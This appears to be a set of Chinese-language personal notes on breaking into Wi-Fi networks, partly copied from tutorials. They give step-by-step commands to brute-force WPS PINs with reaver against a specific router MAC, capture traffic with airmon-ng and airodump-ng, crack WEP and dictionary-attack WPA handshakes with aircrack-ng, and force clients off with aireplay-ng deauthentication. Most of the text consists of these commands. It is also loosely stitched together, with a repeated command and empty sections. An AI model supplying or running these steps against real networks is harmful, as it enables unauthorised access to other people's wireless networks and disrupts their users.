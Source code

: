 >http://netsecurity.51cto.com/art/201105/264844_3.htm

# 另一种思路

> PIN http://www.geekfan.net/7846/

具体的方法 http://xiao106347.blog.163.com/blog/static/21599207820136161132836/

# 怎样的可以pin

`54e.` 的即可

方式:

	sudo reaver -i mon0 -b 40:16:9F:D8:27:A2 -S -v -n


显示更多信息 


	sudo reaver -i mon0 -b 40:16:9F:D8:27:A2 -S -v -n


指定特定的pin码

	sudo reaver -i mon0 -b 40:16:9F:D8:27:A2 -S -v -n -p 40869200

# 查看

当然，通过输入iwconfig查看也是可以滴。这个命令专用于查看无线网卡，不像ifconfig那样查看所有适配器。

    iwconfig 
	
在Linux下，我们使用Aircrack-ng套装里的airmon-ng工具来实现，具体命令如下：

    airmon-ng start wlan0
    
步骤3：探测无线网络，抓取无线数据包。

在激活无线网卡后，我们就可以开启无线数据包抓包工具了，这里我们使用Aircrack-ng套装里的airmon-ng工具来实现，具体命令如下：

不过在正式抓包之前，一般都是先进行预来探测，来获取当前无线网络概况，包括AP的SSID、MAC地址、工作频道、无线客户端MAC及数量等。只需打开一个Shell，输入具体命令如下：

    airodump-ng mon0 
  
参数解释：

mon0为之前已经载入并激活监听模式的无线网卡。如下图8所示。

# 监听

既然我们看到了本次测试要攻击的目标，就是那个SSID名为TP-LINK的无线路由器，接下来输入命令如下：

	airodump-ng --ivs -w longas -c 6 wlan0 

参数解释：

* `--ivs` 这里的设置是通过设置过滤，不再将所有无线数据保存，而只是保存可用于破解的IVS数据报文，这样可以有效地缩减保存的数据包大小；
* `-c` 这里我们设置目标AP的工作频道，通过刚才的观察，我们要进行攻击测试的无线路由器工作频道为6；
* `-w` 后跟要保存的文件名，这里w就是“write写”的意思，所以输入自己希望保持的文件名，如下图10所示我这里就写为longas。那么，小黑们一定要注意的是：这里我们虽然设置保存的文件名是longas，但是生成的文件却不是longase.ivs，而是longas-01.ivs。



图10

注意：这是因为airodump-ng这款工具为了方便后面破解时候的调用，所以对保存文件按顺序编了号，于是就多了-01这样的序号，以此类推，在进行第二次攻击时，若使用同样文件名longas保存的话，就会生成名为longas-02.ivs的文件，一定要注意哦，别到时候找不到又要怪我没写清楚：）

啊，估计有的朋友们看到这里，又会问在破解的时候可不可以将这些捕获的数据包一起使用呢，当然可以，届时只要在载入文件时使用longas*.cap即可，这里的星号指代所有前缀一致的文件。

在回车后，就可以看到如下图11所示的界面，这表示着无线数据包抓取的开始。


图11

	airodump-ng -c 6  -w <文件名> --ivs mon0


# 破解
破解 web加密,需要iv2万左右

	aircrack-ng  *.ivs 


破解 wpa加密, 一个握手包+海量字典:

	aircrack-ng  -w <字典文件> *.cap 


强制断开
	aireplay-ng -0 1  -a 6C:E8:73:50:85:F0 -c 00:1B:77:BE:19:FC mon0


# 暴力wap的

```bash
airodump-ng -c 6  -w [filename] mon0
```

```bash
aircrack-ng  -w [字典] *.cap 
```